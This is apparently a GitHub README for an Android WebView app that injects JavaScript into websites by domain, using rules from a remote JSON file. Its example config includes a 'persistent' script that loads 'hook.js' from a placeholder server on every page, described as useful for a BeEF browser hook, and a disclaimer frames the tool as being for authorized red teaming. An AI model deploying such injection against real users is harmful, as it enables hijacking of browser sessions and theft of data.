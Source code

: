 # 🚀 WebView JavaScript Injector

This project is an **Android WebView app** that injects **custom JavaScript** into websites based on their **domain**, using **wildcards** and **regular expressions (regex)**. The JavaScript rules are stored in a remote JSON file.

---

## 🔹 How It Works

1. The app **downloads `app.json`** from a remote server.
2. It **extracts the domain** of the website being loaded.
3. It **checks the JSON file** for JavaScript rules matching the domain using:
   - ✅ **Exact match** (`b.com`)
   - ✅ **Wildcard match** (`*.example.com`)
   - ✅ **Regex match** (`regex:^.*\.secure\d+\.com$`)
   - ✅ **Default fallback** (if no match is found)
   - ✅ **Persistent scripts**  (optional: run on all pages if enabled useful for BeEF Hook)
4. The matching JavaScript is **injected into the WebView** using `evaluateJavascript()`.
5. When a user **navigates to another page**, the process repeats, injecting JavaScript for the new site.

---

## 📂 Example of Matching

| URL Loaded                   | Matched Rule                  | JavaScript Injected        |
|------------------------------|------------------------------|---------------------------|
| `https://api.example.com`    | `*.example.com`              | ✅ Wildcard matched       |
| `https://login.secure123.com` | `regex:^.*\.secure\d+\.com$` | ✅ Regex matched         |
| `https://b.com`              | `b.com`                      | ✅ Exact match           |
| `https://randomsite.com`     | `default`                    | ✅ Default script        |

---

## 📂 Example `app.json`

```json
{
    "url": "https://a.com",
    "websites": {
        "*.example.com": {
            "scripts": [
                "alert('Wildcard matched for example.com subdomains!');"
            ]
        },
        "regex:^.*\\.secure\\d+\\.com$": {
            "scripts": [
                "alert('Regex matched for secureX.com domains!');"
            ]
        },
        "b.com": {
            "scripts": [
                "alert('Welcome to B.com!');",
                "document.body.style.backgroundColor = 'blue';"
            ]
        }
    },
    "default": {
        "scripts": [
            "alert('No custom script for this site.');"
        ]
    },
    "persistent": {
         "scripts": [
            "var script = document.createElement('script');",
            "script.src = 'http://your-server.com/hook.js';",
            "document.head.appendChild(script);"
        ],
        "status": false
    }
}


## ⚠️ Legal & Ethical Disclaimer

🚨 This tool is developed strictly for educational and authorized security testing purposes only.

🔬 It is intended to help cybersecurity professionals, researchers, and enthusiasts understand post-exploitation, red teaming, and detection techniques in lab or controlled environments.

❌ Do NOT use this tool on any system or network without explicit permission. Unauthorized use may be illegal and unethical.

🛡 The author takes no responsibility for any misuse or damage caused by this project.

---

> Always hack responsibly. 💻🔐